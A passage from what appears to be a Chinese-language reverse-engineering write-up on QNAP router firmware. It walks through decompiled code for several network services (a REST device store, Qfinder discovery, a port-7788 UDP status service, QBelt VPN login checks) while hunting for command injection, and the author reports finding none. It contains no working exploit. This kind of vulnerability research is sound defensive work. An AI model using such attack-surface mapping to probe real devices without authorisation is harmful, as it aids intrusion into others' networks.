    uVar5 = cJSON_CreateNumber((double)(uint)(0xf9 < iVar2));
    cJSON_AddItemToObject(lVar4,"confirm",uVar5);
    uVar5 = cJSON_CreateString("9000000");
    cJSON_AddItemToObject(lVar4,"sid",uVar5);
    cJSON_AddItemToObject(lVar3,"data",lVar4);
    __s = (char *)cJSON_PrintUnformatted(lVar3);
    lVar4 = curl_easy_init();
    if (lVar4 == 0) {
      if (develop_mode == 0) {
        if (syslog_mode != 0) {
          syslog(7,"curl_easy_init fails\n");
        }
      }
      else {
        puts("curl_easy_init fails");
      }
    }
    else {
      curl_easy_setopt(lVar4,0x2734,"PUT");
      curl_easy_setopt(lVar4,0x2712,&local_80);
      curl_easy_setopt(lVar4,0x271f,__s);
      iVar2 = curl_easy_perform(lVar4);
      __stream = stderr;
      if (iVar2 != 0) {
        uVar5 = curl_easy_strerror();
        fprintf(__stream,"update_rest_api failed: %s\n",uVar5);
      }
      if (develop_mode == 0) {
        if (syslog_mode != 0) {
          syslog(7,"%s\n",__s);
        }
        curl_easy_cleanup(lVar4);
      }
      else {
        puts(__s);
        curl_easy_cleanup(lVar4);
      }
    }
    if (__s != (char *)0x0) {
      free(__s);
    }
  }
  cJSON_Delete(lVar3);
  return 0xffffffff;
}

```
> 请求的url将是 PUT http://localhost:6666/apis/v1/scanned_devices/(MAC) 和jsondata

> 继续分析`rapid`服务, 该服务也是gin-web框架开发的所以我们快速的定位到`gitlab.lionic.com/qnap/rapid/server.(*Server).NewRouter`路由的定义并且来到我们处理scanned_devices路径的函数`gitlab.lionic.com/qnap/rapid/server.(*Server).PutScannedDevice`.

```C

void gitlab.lionic.com/qnap/rapid/server.(*Server).PutScannedDevice(int param_1,int param_2)

{
  uint4 *puVar1;
  undefined *puVar2;
  undefined4 *puVar3;
  runtime._type *prVar4;
  uint4 uVar5;
  int unaff_r10;
  int iVar6;
  runtime._type *prVar7;
  undefined4 *puVar8;
  undefined *puVar9;
  undefined *puVar10;
  uint4 in_stack_ffffffbc;
  uint4 uVar11;
  undefined4 in_stack_ffffffc0;
  undefined4 uVar12;
  undefined4 in_stack_ffffffc4;
  uint4 local_14;
  runtime._type *local_10;
  undefined4 local_c;
  undefined4 local_8;
  uint4 *local_4;
  

  while (&stack0x00000000 <= *(undefined **)(unaff_r10 + 8)) {

    runtime.morestack_noctxt();
  }

  puVar3 = *(undefined4 **)(param_2 + 0x20);

  github.com/gin-gonic/gin.Params.Get
            (*(undefined4 *)(param_2 + 0x1c),puVar3,*(undefined4 *)(param_2 + 0x24),&DAT_00694fb5,3,
             in_stack_ffffffbc,in_stack_ffffffc0,in_stack_ffffffc4);//[1]
  uVar5 = in_stack_ffffffbc;
  uVar12 = in_stack_ffffffc0;

  runtime.newobject(&datatype.Struct.struct_{_Data_store.ScannedDevice_"json:\"data\""_},puVar3);

  prVar7 = &datatype.Ptr.*struct_{_Data_store.ScannedDevice_"json:\"data\""_};
  puVar9 = &DAT_007a2418;
  puVar10 = &DAT_00bde528;
  puVar8 = puVar3;
  github.com/gin-gonic/gin.(*Context).MustBindWith
            (param_2,&datatype.Ptr.*struct_{_Data_store.ScannedDevice_"json:\"data\""_},puVar3,
             &DAT_007a2418,&DAT_00bde528,uVar5,uVar12); //[2]

  if (uVar5 != 0) {

    iVar6 = param_2;
    uVar11 = uVar5;

    runtime.duffcopy_0x14_FUN_0006a43c((uint4 *)&stack0xffffffac,(uint4 *)&DAT_00bc55a0);
    gitlab.lionic.com/qnap/rapid/server.Abort
              (iVar6,prVar7,puVar8,puVar9,puVar10,uVar11,&DAT_006a244c,0x18,uVar5,uVar12);

    return;
  }

  puVar1 = *(uint4 **)(param_1 + 0x44);

  runtime.newobject(&datatype.Array.[15]uint8,prVar7);
  puVar9 = &DAT_0069d12b;
  prVar4 = prVar7;
  do {
    puVar2 = puVar9 + 1;
    *(undefined *)&prVar4->size = *puVar9;
    puVar9 = puVar2;
    prVar4 = (runtime._type *)((int)&prVar4->size + 1);
  } while ((int)puVar2 < 0x69d13a);
  runtime.duffzero_0x0_0x14_FUN_0006a04c(&local_14,0);
  local_14 = *puVar1;
  local_c = 0xf;
  local_8 = 0xf;

  local_10 = prVar7;
  local_4 = puVar1;
  gitlab.lionic.com/qnap/rapid/store.(*ScannedDevicesCollection).Replace
            ((int)&local_14,in_stack_ffffffbc,in_stack_ffffffc0,puVar3,puVar10,uVar5); //[3]

  if (puVar10 != (undefined *)0x0) {

    iVar6 = param_2;
    puVar9 = puVar10;
    uVar11 = uVar5;

    runtime.duffcopy_0x14_FUN_0006a43c((uint4 *)&stack0xffffffac,(uint4 *)&DAT_00bc55d0);
    gitlab.lionic.com/qnap/rapid/server.Abort
              (iVar6,in_stack_ffffffbc,in_stack_ffffffc0,puVar3,puVar9,uVar11,0,0,puVar10,uVar5);

    return;
  }

  runtime.newobject(&datatype.Struct.struct_{},in_stack_ffffffbc);
  gitlab.lionic.com/qnap/rapid/server.JSON(param_2,200,&datatype.Ptr.*struct_{},in_stack_ffffffbc);

  return;
}

```
> 首先会在[1],[2]处获取MAC和JSON数据, 并进入[3]`Replace`函数, 至于Replace过于混乱了就不显示出来了, 最后是调用了`gitlab.lionic.com/qnap/rapid/store.(*Collection).Replace`

```C

void gitlab.lionic.com/qnap/rapid/store.(*Collection).Replace
               (undefined4 *param_1,undefined4 param_2,undefined4 param_3,undefined4 param_4,
               undefined4 param_5,undefined4 param_6)

{
  int unaff_r10;
  undefined4 in_stack_ffffffe4;
  undefined4 in_stack_ffffffe8;
  code *local_14;
  undefined4 *local_10;
  undefined4 local_c;
  undefined4 local_8;
  undefined4 local_4;
  
                    /* /home/adv/adv-release-bsp/src/rapid/store/collection.go:94 */
  while (&stack0x00000000 <= *(undefined **)(unaff_r10 + 8)) {
                    /* /home/adv/adv-release-bsp/src/rapid/store/collection.go:94 */
    runtime.morestack_noctxt();
  }
                    /* /home/adv/adv-release-bsp/src/rapid/store/collection.go:95 */
  runtime.duffzero_0x0_0x14_FUN_0006a04c((uint4 *)&local_14,0);
  local_14 = gitlab.lionic.com/qnap/rapid/store.(*Collection).Replace.func1;
  local_10 = param_1;
  local_c = param_2;
  local_8 = param_3;
  local_4 = param_4;
  github.com/boltdb/bolt.(*DB).Update(*param_1,&local_14,in_stack_ffffffe4,in_stack_ffffffe8);
  return;
}
```
> 可以看到使用`github.com/boltdb/bolt.(*DB).Update`保存了数据, 这也是我第一次接触这种Key/Value的数据存储.

> 在这个服务的最后, 还有几个点说一下

1. 可能在其他的地方查询了保存数据, 并进行了危险操作.
2. 我简单的查看了`rapid`没有找到明显的命令注入.
3. 在这个程序中还有许多路由可以访问但是我没有找到对应的请求的程序

### bcclient Qfinder的服务端

> 这个服务应该是每一个qnap的产品都会有的服务,但是貌似并不在WAN口开放, 并且每一个产品的不同程序也会有不同, 分析了客户端程序会发现许多url路径, 而在开放的8097端口使用的同样是Golang开发的程序, 我们简单的来看一下代码吧

> 在Golang中`readFromUDP()`函数负责接收数据，而`WriteToUDP()`函数负责返回.我们直接在ghidra中搜索这两个函数很快就能够看到在`bcclient/internal/qfindgo.(*QFAgent).reactloop`中调用了`readFromUDP`函数简单的看一下

```c

        net.(*UDPConn).readFromUDP
                  (param_2,puVar12,100,100,pprVar18,puVar19,puVar20,uVar6,in_stack_fffffffffffffd98)
        ;
            ...
    if (uStack_260._6_1_ == '\0') {
                    /* bcclient/internal/qfindgo/qfagent.go:424 */
      if (((DAT_002a4898 == 6) && (*(int *)goss_router_2a4890 == 0x74756f72)) &&
         (*(short *)(goss_router_2a4890 + 4) == 0x7265)) {
        lVar15 = 0;
                    /* bcclient/internal/qfindgo/qfagent.go:426 */
        while (puVar10 = puVar12, in_stack_fffffffffffffd90 = uVar6, lVar15 < local_250) {
          local_198 = local_1b0[lVar15];
          local_248 = lVar15;
                    /* bcclient/internal/qfindgo/qfagent.go:427 */
          net.(*UDPAddr).String(local_190,puVar4,puVar12);
          strings.genSplit(puVar4,puVar12,0x19554c,1,0,0xffffffffffffffff,puVar20,uVar6,
                           in_stack_fffffffffffffd98);
                    /* bcclient/internal/qfindgo/qfagent.go:427 */
          if (uVar6 == 0) {
                    /* bcclient/internal/qfindgo/qfagent.go:427 */
            runtime.panicIndex(puVar4,puVar12);
            goto LAB_00149458;
          }
          puVar4 = puVar13;
          puVar12 = puVar10;
          net.ParseIP(*puVar20,puVar20[1],puVar13,puVar10,pprVar18);
          net.(*IPNet).Contains(local_198,puVar4,puVar12,pprVar18,pprVar18); //[1]
          if ((char)pprVar18 != '\0') {
                    /* bcclient/internal/qfindgo/qfagent.go:428 */
            github.com/sirupsen/logrus.(*Logger).Logf
                      (local_1c8,CONCAT44((int)uVar16,4),&DAT_0019f6fa,0x31,pprVar18,2,2);
            puVar4 = local_190;
                    /* bcclient/internal/qfindgo/qfagent.go:429 */
            bcclient/internal/qfindgo.(*QFAgent).regularReport(param_1,local_190); //[2]
          }
                    /* bcclient/internal/qfindgo/qfagent.go:426 */
          lVar15 = local_248 + 1;
        }
      }
      else {
                    /* bcclient/internal/qfindgo/qfagent.go:433 */
        bcclient/internal/qfindgo.(*QFAgent).regularReport(param_1,local_190); //[3]
        puVar10 = puVar12;
        in_stack_fffffffffffffd90 = uVar6;
      }
    }
  }

```
> 可以看到最后都在[2],[3]处调用了`regularReport`,而[1]处貌似使用`Contains`函数去检查了Ip, 让我们进入到`regularReport`函数

```c

void bcclient/internal/qfindgo.(*QFAgent).regularReport(long param_1,undefined8 param_2)

{
  
                    /* bcclient/internal/qfindgo/qfagent.go:348 */
  while (&stack0x00000000 <= *(undefined **)(unaff_x28 + 0x10)) {
                    /* bcclient/internal/qfindgo/qfagent.go:348 */
    runtime.morestack_noctxt();
  }
                    /* bcclient/internal/qfindgo/qfagent.go:349 */
  if (*(long *)(param_1 + 0x18) != 0) {
                    /* bcclient/internal/qfindgo/qfagent.go:353 */
    bcclient/internal/qfindgo.(*QFAgent).mkreplypkt
              (param_1,in_stack_ffffffffffffffb0,in_stack_ffffffffffffffb8,in_stack_ffffffffffffffc0
              ); //[1]
    bcclient/internal/qfindgo.(*QFAgent).doreply
              (param_1,*(undefined8 *)(param_1 + 0x18),in_stack_ffffffffffffffb0,
               in_stack_ffffffffffffffb8,in_stack_ffffffffffffffc0,param_2); //[2]
                    /* bcclient/internal/qfindgo/qfagent.go:354 */
    return;
  }
                    /* bcclient/internal/qfindgo/qfagent.go:350 */
  local_18 = &datatype.String.string;
  local_10 = &goss_qfindgo_1c8188;
                    /* github.com/sirupsen/logrus@v1.9.0/logger.go:186 */
  github.com/sirupsen/logrus.(*Logger).Logf
            (DAT_002ac468,CONCAT44((int)((ulong)in_stack_ffffffffffffffb0 >> 0x20),2),&DAT_0019c999,
             0x21,&local_18,1,1);
                    /* bcclient/internal/qfindgo/qfagent.go:351 */
  return;
```

> 进入到`regularReport`函数, 在[1]中并没有我感兴趣的并且貌似我们的param_2也没有传入函数中, 所以进入到` bcclient/internal/qfindgo.(*QFAgent).doreply`函数.

> ` bcclient/internal/qfindgo.(*QFAgent).doreply`函数的伪代码非常杂乱, 所以简单描述一下吧,在这个函数中获取了非常多的系统信息有以下函数, 如果对于这个函数是怎么运行的师傅可以考虑自己看一下, 并在这个函数中使用`net.(*UDPConn).WriteToUDP`函数返回了数据

```c

bcclient/internal/common.GetModelName()

bcclient/internal/common.GetCorrectInterface()

bcclient/internal/qfindgo.(*QFAgent).updateSystemInfo()

bcclient/internal/qfindgo.(*QFAgent).SetWLIPs()

```

> 总结这个服务, 由于每一个设备的web服务和功能点不同所以可能bcclient将会有很大的差异, 而我了解到的通过分析Qfinder, 如果我尝试通过添加一个公网的设备他将会从web服务获取设备信息, 当然我尝试点击其他的功能点的时候客户端将会跳到浏览器, 暂时无法确定是否是公网的原因还是其他? 而通过分析bcclient程序也只能看到获取设备信息的函数, 至于这个`SetWLIPs()`函数进入后就可以看到`net.ParseIP()`函数并没有什么敏感操作, Qfinder客户端服务功能还是相当多的, 可能会在其他设备上找到更多?


### 8099-python

> 这个服务我还没有怎么看过, 所以我应该会边看边写这个服务, 可以看到是由`/usr/sbin/qfinderDiscovery.pyc`去打开的服务, 接下来我们就可以去看python代码了(太好了!至少不是那该死的golang的伪代码了)当看到这个文件名称时我想这个怎么说也会和上一个服务有点关系, 现在还有一个问题为什么会有一个类似于qfinder的客户端会出现在路由器上? 可能是某一个可以安装的插件?

> 看完后我现在敢肯定这就是一个python写的缩小版的qfinder, 在接收来自上面bcclient返回的数据后，解析数据包并保存在`redis`中.

```python
def _update_device_info_in_redis_db(device_info_list):
    try:
        r = redis.StrictRedis(host=redis_host_ip, port=redis_port, db=redis_index)
        for dev in device_info_list:
            if dev['macAddr'] != '':
                r.hset(dev['macAddr'], 'category', dev['category'])
                r.hset(dev['macAddr'], 'macAddr', dev['macAddr'])
                r.hset(dev['macAddr'], 'ipList', dev['ipList'])
                r.hset(dev['macAddr'], 'lastSeen', dev['lastSeen'])
                r.hset(dev['macAddr'], 'model', dev['model'])
                r.hset(dev['macAddr'], 'name', dev['name'])
                r.hset(dev['macAddr'], 'macList', dev['macList'])

    except Exception as e:
        logging.error('_update_device_info_in_redis_db fail error = %s', str(e))

```

### quwan_wmd-7788

> 这个服务搜索官方的资料貌似是一个叫Hub-to-edge VPN的服务, 而它真正是在`libquwansetup.so.1.0`绑定和接收服务, 函数名称是`ProcUdp::udp_listen`, 进入我们的代码环节! 这一次我们用IDA Por, 

```c++

if ( (recvfrom(*((_DWORD *)this + 1), v142, 0x100uLL, 0, &v132, &addr_len) & 0x8000000000000000LL) != 0 ) //[1]
        break;
      sub_4C7A8((int)v141, v142);
      sub_4C6DC(&v134, v141);
      std::string::_M_dispose(v141);
      if ( !(unsigned __int8)Json::Reader::parse(v143, &v134, v139, 0LL) )
      {
                  //log print
        goto LABEL_17;
      }
      Json::Value::Value((Json::Value *)v140, 0);
      Json::Value::get((Json::Value *)v139, "Sender", (const Json::Value *)v140); //[2]
      v124 = Json::Value::asInt((Json::Value *)v141);
      Json::Value::~Value((Json::Value *)v141);
      Json::Value::~Value((Json::Value *)v140);
      Json::Value::Value((Json::Value *)v140, 0);
      Json::Value::get((Json::Value *)v139, "Receiver", (const Json::Value *)v140); //[3]
      v35 = Json::Value::asInt((Json::Value *)v141);
      Json::Value::~Value((Json::Value *)v141);
      Json::Value::~Value((Json::Value *)v140);
      Json::Value::Value((Json::Value *)v140, 0);
      Json::Value::get((Json::Value *)v139, "Wan", (const Json::Value *)v140); //[4]
      v129 = Json::Value::asInt((Json::Value *)v141);
      Json::Value::~Value((Json::Value *)v141);
      Json::Value::~Value((Json::Value *)v140);
      if ( v124 )
        v36 = v35 == 0;
      else
        v36 = 1;
      if ( v36 )
      {
              //log print
        goto LABEL_17;
      }
      if ( v126 != v35 )
      {
           //log print
        goto LABEL_17;
      }
      ipsec_intalled_num = get_ipsec_intalled_num(); //[5]
      Json::FastWriter::FastWriter((Json::FastWriter *)v141);
      std::string::basic_string(v137, &log_target[abi:cxx11]);
      check_file_size(v137);
                 //log print
      sub_4C7A0(v67, &std::endl<char,std::char_traits<char>>);
      std::string::_M_dispose(v140);
      std::string::_M_dispose(v138);
      std::string::_M_dispose(v137);
      wan_port_num = get_wan_port_num(); //[6]
      get_cpu_usage(); //[7]
      v69 = v68;
      get_mem_usage(); //[8]
      v71 = v70;
      std::string::basic_string(v137, &log_target[abi:cxx11]);
      check_file_size(v137);
                      //log print
      sub_4C7A0(v78, &std::endl<char,std::char_traits<char>>);
      std::string::_M_dispose(v140);
      std::string::_M_dispose(v138);
      std::string::_M_dispose(v137);
      std::string::basic_string(v137, &log_target[abi:cxx11]);
      check_file_size(v137);
                 //log print
      sub_4C7A0(v89, &std::endl<char,std::char_traits<char>>);
      std::string::_M_dispose(v140);
      std::string::_M_dispose(v138);
      std::string::_M_dispose(v137);
      if ( (int)(v129 * wan_port_num + ipsec_intalled_num) <= 30 )
      {
        v100 = 0;
      }
      else
      {
        std::string::basic_string(v137, &log_target[abi:cxx11]);
        check_file_size(v137);
        v90 = std::operator<<<char>(&setup_logger, v138);
        v91 = std::operator<<<std::char_traits<char>>(v90, "[ERROR] ");
        get_cur_time[abi:cxx11]();
        v92 = std::operator<<<char>(v91, v140);
        v93 = std::operator<<<std::char_traits<char>>(v92, "Installed: ");
        v94 = std::ostream::operator<<(v93, ipsec_intalled_num);
        v95 = std::operator<<<std::char_traits<char>>(v94, ", it will be exceeded limitation: ");
        v96 = std::ostream::operator<<(v95, 30LL);
        v97 = std::operator<<<std::char_traits<char>>(v96, " after adding: ");
        v98 = std::ostream::operator<<(v97, v129 * wan_port_num);
        v99 = std::operator<<<std::char_traits<char>>(v98, " sessions.");
        sub_4C7A0(v99, &std::endl<char,std::char_traits<char>>);
        v100 = -2;
        std::string::_M_dispose(v140);
        std::string::_M_dispose(v138);
        std::string::_M_dispose(v137);
      }
      v101 = Json::Value::operator[](v139, "Sender");
      Json::Value::Value((Json::Value *)v140, v126);
      Json::Value::operator=(v101, v140);
      Json::Value::~Value((Json::Value *)v140);
      v102 = Json::Value::operator[](v139, "Receiver");
      Json::Value::Value((Json::Value *)v140, v124);
      Json::Value::operator=(v102, v140);
      Json::Value::~Value((Json::Value *)v140);
      v103 = Json::Value::operator[](v139, "RemoteWan");
      Json::Value::Value((Json::Value *)v140, wan_port_num);
      Json::Value::operator=(v103, v140);
      Json::Value::~Value((Json::Value *)v140);
      v104 = Json::Value::operator[](v139, "Cpu");
      Json::Value::Value((Json::Value *)v140, v83);
      Json::Value::operator=(v104, v140);
      Json::Value::~Value((Json::Value *)v140);
      v105 = Json::Value::operator[](v139, "Memory");
      Json::Value::Value((Json::Value *)v140, v86);
      Json::Value::operator=(v105, v140);
      Json::Value::~Value((Json::Value *)v140);
      v106 = Json::Value::operator[](v139, "Connections");
      Json::Value::Value((Json::Value *)v140, ipsec_intalled_num);
      Json::Value::operator=(v106, v140);
      Json::Value::~Value((Json::Value *)v140);
      v107 = Json::Value::operator[](v139, "Result");
      Json::Value::Value((Json::Value *)v140, v100);
      Json::Value::operator=(v107, v140);
      Json::Value::~Value((Json::Value *)v140);
      Json::FastWriter::write[abi:cxx11](v141, v139);
      sub_4C6DC(&v134, v140);
      std::string::_M_dispose(v140);
      if ( (sendto(*((_DWORD *)this + 1), v134, v135, 0, &v132, addr_len) & 0x8000000000000000LL) != 0 ) //[9]
      {
               //log print
      }

```

> 可以看到处理也比较简单, 在[1]处接收了我们的请求, 并且在[2],[3],[4]获取了我们发送的json, [5],[6],[7],[8]获取了一些系统信息,简单看两个吧.

```c++

__int64 get_ipsec_intalled_num(void)
{
  unsigned int v0; // w20
  char v2[32]; // [xsp+30h] [xbp+30h] BYREF
  char *nptr; // [xsp+50h] [xbp+50h] BYREF

  sub_531C8((int)v2, "/sbin/ipsec statusall | /bin/grep -c INSTALLED");
  exec(v2);
  v0 = atoi(nptr);
  std::string::_M_dispose(&nptr);
  std::string::_M_dispose(v2);
  return v0;


  float get_mem_usage(void)
{
  double v0; // d8
  char v2[32]; // [xsp+30h] [xbp+30h] BYREF
  char *nptr; // [xsp+50h] [xbp+50h] BYREF

  sub_531C8((int)v2, "/bin/free -m | /bin/grep Mem | /bin/awk '{print $3/$2 * 100.0}'");
  exec(v2);
  v0 = atof(nptr);
  std::string::_M_dispose(&nptr);
  std::string::_M_dispose(v2);
  return v0;
}
```

> 我们并没有可以控制的shell字符串, 命令注入的希望破灭了, 可以看到最后返回了Sender,Receiver,RemoteWan,Cpu,Memory,Connections,Result,在[9]处发送了返回.

> 最后总结,这个服务运行在7788端口上使用UDP发送`{"Sender":1,"Receiver":0,"Wan":1}`Receiver会需要根据实际情况进行更改, 返回统计ipsec信息,CPU的使用百分比,系统内存的使用百分比,device_info.json的port的端口信息.


### qthd-4433
> 这个服务非常有趣可以通过官网查到这是一个qnap的专有vpn协议, 名为`QBelt VPN`协议, 可以看到在官方的宣传页上这个协议支持的认证方法有 PSK, Certification, Username and password.

> 继续分析这个服务, 当我在本地跑起这个服务后我们看到了如下日志

```sh

tunnel_interface : qtun0 
pid_path:/var/run/network/qthd.pid , curr_conf_path:/var/run/network/qtun0_qthd.json.curr 
main: set dns_ip_to_client: 198.18.2.1
get_qs_data: qs_call failed ret:2
edit_reserved_udp_ipset: cmd: /usr/sbin/ipset -! add RESERVEDUDP 4433
init_clean_online_user: qservice_call QVPNDBMgr.CleanOnlineClient {"protocol":0,"type_management":0} failed, ret=-13
qtund_read_cb: Cannot find client entry in QUEUE
qtund_read_cb: Cannot find client entry in QUEUE
qtund_read_cb: Cannot find client entry in QUEUE
client_addr:127.0.0.1,port:33060
qth_server.c:qth_bind_to_device:1923: ifindex:1
qth_server.c:qth_bind_to_device:1937: Bind to [lo]
client_addr:127.0.0.1,port:33060
qth_server.c:qth_bind_to_device:1923: ifindex:1
qth_server.c:qth_bind_to_device:1937: Bind to [lo]
qtund_read_cb: Cannot find client entry in QUEUE
client_addr:192.168.199.244,port:59361
qth_server.c:qth_bind_to_device:1923: ifindex:2
qth_server.c:qth_bind_to_device:1937: Bind to [ens160]
client_addr:192.168.199.244,port:59361
qth_server.c:qth_bind_to_device:1923: ifindex:2
qth_server.c:qth_bind_to_device:1937: Bind to [ens160]
^Cqth_stop: signum is 2
get_qs_data: qs_call failed ret:2
qth_server.c:qth_loop:1992: 0xffff9c00aa90 mbedtls_net_accept returned -74 (-0x4a)
init_clean_online_user: qservice_call QVPNDBMgr.CleanOnlineClient {"protocol":0,"type_management":0} failed, ret=-13
edit_reserved_udp_ipset: cmd: /usr/sbin/ipset -! del RESERVEDUDP 4433
main error code: 0

```
> 当然我并不能在其中找到任何的发现, 除了发现它使用了mbedtls套件之外好像什么都没有, 看来我们需要下载一个客户端来研究研究了, 当然我们看官方文档是如何配置QBelt连接.

> 搜索后我们可以做到一个叫`QVPN Device Client`客户端, 查看文档后我们可以知道如何配置连接.



> 需要提供账号密码和psk,通过官方对于这个协议的介绍QBelt 是 QNAP 专有的通信协议，结合了 DTLS 和 AES-256 加密, 也可以看到一些信息, 所以他是如何验证账号密码呢? 我并不能直接在qthd的`recvmsg`附近找到什么函数调用，所以我掏出最终技搜索字符串.

> 在程序中找到了关于user和pwd的json字段,进入调用这个字符串的函数`sub_40627C()`


```C++
__int64 __fastcall sub_40627C(__int64 a1, const char *a2, const char *a3)
{
  __int64 v6; // x20
  unsigned int v7; // w1
    //...
  char s; // [xsp+6E0h] [xbp+6E0h] BYREF

  v24 = 0LL;
  v6 = qs_io_create();
  memset(v36, 0, 0xFCuLL);
  v41[0] = 0LL;
  v41[1] = 0LL;
  memset(&s, 0, 0x7F0uLL);
  *(_QWORD *)buf = 0LL;
  v27 = 0LL;
  v39[0] = 0LL;
  v39[1] = 0LL;
  *(_QWORD *)name = 0LL;
  v29 = 0LL;
  v30 = 0LL;
  v31 = 0LL;
  v32 = 0LL;
  v33 = 0LL;
  v34 = 0LL;
  v35 = 0LL;
  memset(v40, 0, 0x3F0uLL);
  timer = 0LL;
  if ( !v6 )
  {
    sub_40A4F8("%s: qs_io_create failed\n", "verify_user_account");
    return (unsigned int)-14;
  }
  v9 = strlen(a3);
  sub_40A4F8("%s: pw len: %d\n", "verify_user_account", v9);
  memset(v38, 0, 0x100uLL);
  v10 = strlen(a3);
  sub_40A3EC(v38, a3, v10);
  snprintf(
    (char *)v41,
    0x800uLL,
    "{\"user_name\":\"%s\",\"pw\":\"%s\",\"capability\":%d,\"role_type\":%d}",
    a2,
    v38,
    1LL,
    *(unsigned int *)(a1 + 1948)); //[1]
  v11 = strlen((const char *)v41);
  if ( qs_io_write(v6, v41, v11) == -1 ) //[2]
  {
    v12 = 0LL;
    sub_40A4F8("%s: qs_io_write failed\n", "verify_user_account");
LABEL_6:
    LODWORD(v13) = -16;
    goto LABEL_14;
  }
  v14 = qs_call("QVPNDBMgr", "VerifyUserAcct", v6, 5LL, 0xFFFFFFFFLL); //[3]
  if ( v14 )
  {
    v12 = 0LL;
    sub_40A4F8("%s: qs_call failed ret:%d\n", "verify_user_account", v14);
LABEL_9:
    LODWORD(v13) = -13;
    goto LABEL_14;
  }
  v15 = qs_io_read(v6, &v24, 0LL);
  v16 = (_DWORD *)json_loads(v15, 0LL, v36);
  v12 = v16;
  if ( !v16 || *v16 )
  {
    sub_40A4F8("%s: root isn't an object. %d: %s\n", "verify_user_account", (unsigned int)v36[0], v37);
LABEL_13:
    LODWORD(v13) = -2;
    goto LABEL_14;
  }
  v17 = (_DWORD *)json_object_get();
  v18 = v17;
  if ( !v17 || *v17 != 3 )
  {
    sub_40A4F8("%s: val isn't an integer. %d: %s\n", "verify_user_account", (unsigned int)v36[0], v37);
    goto LABEL_13;
  }
  v13 = ((__int64 (*)(void))json_integer_value)();
  if ( v13 )
  {
    ptra = (char *)json_dumps(v12, 4LL);
    sub_40A4F8("%s: %s.%s failed %s\n", "verify_user_account", "QVPNDBMgr", "VerifyUserAcct", ptra);
    free(ptra);
    if ( *(_DWORD *)(a1 + 1948) == 1 )
    {
      if ( gethostname(name, 0x40uLL) == -1 )
      {
        perror("gethostname");
        LODWORD(v13) = 0;
        goto LABEL_14;
      }
      if ( json_integer_value(v18) == -1005 || json_integer_value(v18) == -1008 )
      {
        inet_ntop(2, (const void *)(a1 + 1952), buf, 0x10u);
        v19 = 237;
        snprintf((char *)v39, 0x400uLL, "[\"%s\", \"%s\", \"%s\"]", a2, buf, name);
        goto LABEL_25;
      }
      if ( json_integer_value(v18) == -1007 )
      {
        v19 = 236;
        snprintf((char *)v39, 0x400uLL, "[\"%s\", \"%s\"]", a2, name);
LABEL_25:
        memset(v41, 0, 0x800uLL);
        time(&timer);
        snprintf(
          (char *)v41,
          0x800uLL,
          "{\"msg_id\":%d,\"timestamp\":%lu,\"values\":%s}",
          v19,
          timer,
          (const char *)v39);
        qs_io_realloc(v6, 0LL);
        v20 = strlen((const char *)v41);
        if ( qs_io_write(v6, v41, v20) == -1 )
        {
          sub_40A4F8("%s: qs_io_write failed\n", "verify_user_account");
          goto LABEL_6;
        }
        sub_40A4F8("%s: send msg: %s\n", "verify_user_account", (const char *)v41);
        v21 = qs_call("nm-grpc-handler", "DeviceLog", v6, 5LL, 0xFFFFFFFFLL);
        if ( v21 )
        {
          sub_40A4F8("%s: qs_call failed ret:%d\n", "verify_user_account", v21);
          goto LABEL_9;
        }
      }
    }
    LODWORD(v13) = -2011;
  }
LABEL_14:
  ptr = v13;
  qs_io_free(v6);
  v7 = ptr;
  if ( v12 )
  {
    sub_406258(v12);
    return ptr;
  }
  return v7;
}

```
 > 可以看到在[1]处调用我们搜索到的字符串, 并使用`snprintf()`函数格式化字符串, 之后到[2]处传入了v41貌似在写什么, 并在v6中返回了回来在最后调用了`qs_call()`函数, 我完全相信了这就是验证账号密码的函数, 因为从日志输出或者调用的字符串`verify_user_account`看来是那么的符合, 所以究竟如何验证的账号密码, 现在我们可以来看一个非常重要的函数`qs_call()`了.

### qs_call和总结

> qs_call函数我没有跟进去看，所以我还是采用老方法搜索`VerifyUserAcct`字符串, 可以看看上面的例子`qs_call("QVPNDBMgr", "VerifyUserAcct", v6, 5LL, 0xFFFFFFFFLL);`, 很快就会找到一个既符合第一个参数的程序名称, 又可以在这个程序中找到`VerifyUserAcct`关键字, 它就是`/usr/sbin/qvpn_db_mgr`看来这就是我们想找的程序了, 来到IDA Pro!

```

.data:000000000049C978 F4 28 46 00 00 00 00 00       DCQ aVerifyuseracct                     ; "VerifyUserAcct"
.data:000000000049C980 03 29 46 00 00 00 00 00       DCQ aVerifyuseracct_0                   ; "\n    VerifyUserAcct\n\n    Description"...
.data:000000000049C988 68 2B 42 00 00 00 00 00       DCQ sub_422B68

```

> 在data段中我们再一次找到了它, 那就进入`sub_422B68()`函数吧

```C++
__int64 __fastcall sub_422B68(__int64 a1)
{
  return sub_42209C(a1, 4);
}
```
> 只是在call另外一个函数并将第二个参数设置为4, 那就继续跟进入`sub_42209C`吧.

```C++

__int64 __fastcall sub_42209C(__int64 a1, int a2)
{
  __int64 v4; // x0
  int v5; // w19
   //.....
  __int64 v56; // [xsp+1A0h] [xbp+1A0h]
  __int64 v57; // [xsp+1A8h] [xbp+1A8h]

  v45 = 4;
  v47 = 126LL;
  v54 = 2;
  v43 = off_460430;
  v44 = 0LL;
  v46 = "qvpn_db_mgr.cpp";
  v48 = "int qs_io_wrapper(qs_io*, int)";
  v49 = 0;
  v50 = 0LL;
  v51 = 0;
  v52 = 0LL;
  v53 = "";
  v55 = 0LL;
  v56 = 0LL;
  v57 = 0LL;
  v4 = sub_42F3DC(&v43, 1LL, "default");
  sub_40FD80(v4, "Enter");
  sub_40F8D8(&v43);
  Json::Value::Value(v38, 0LL);
  Json::Value::Value(v39, 7LL);
  v37 = sub_421A40(a1, v38);
  if ( !v37 )
  {
    v5 = (unsigned __int8)Json::Value::empty((Json::Value *)v38);
    if ( v5 || (isObject = (unsigned __int8)Json::Value::isObject((Json::Value *)v38)) == 0 )
    {
      v37 = -2;
      Json::Value::Value((Json::Value *)&v43, "Bad format of input data!");
      Json::Value::operator=(v39, &v43);
      Json::Value::~Value((Json::Value *)&v43);
    }
    else
    {
      Json::FastWriter::FastWriter((Json::FastWriter *)v42);
      switch ( a2 ) //[1]
      {
        case 1:
          v14 = qword_49CFD8;
          Json::Value::Value((Json::Value *)&v43, (const Json::Value *)v38);
          v8 = sub_41C584(v14, 2LL, &v43, v39);
          goto LABEL_35;
        case 2:
          v9 = qword_49CFD8;
          Json::Value::Value((Json::Value *)&v43, (const Json::Value *)v38);
          v8 = sub_41DE20(v9, &v43);
          goto LABEL_35;
        case 3:
          v10 = qword_49CFD8;
          Json::Value::Value((Json::Value *)&v43, (const Json::Value *)v38);
